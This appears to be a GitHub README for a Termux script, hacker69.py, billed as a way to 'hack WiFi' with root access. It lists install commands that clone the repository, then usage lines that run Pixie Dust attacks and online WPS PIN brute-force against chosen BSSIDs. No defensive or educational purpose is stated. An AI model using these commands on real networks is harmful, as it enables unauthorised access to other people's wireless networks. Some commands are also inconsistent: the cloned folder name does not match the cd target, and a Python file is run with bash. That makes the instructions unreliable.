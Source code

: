 ## Wifi_Hack
### Hack WIfi Using Termux! {Requires Root}

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
 apt update && apt upgrade
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 git clone https://github.com/imranhacker69/Wifi-hack
 cd Wifi_Hack
 chmod +x hacker69.py
bash hacker69.py
 sudo python hacker69.py --help
```

#### Example : `sudo python hacker69.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python hacker69.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python hacker69.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python hacker69.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
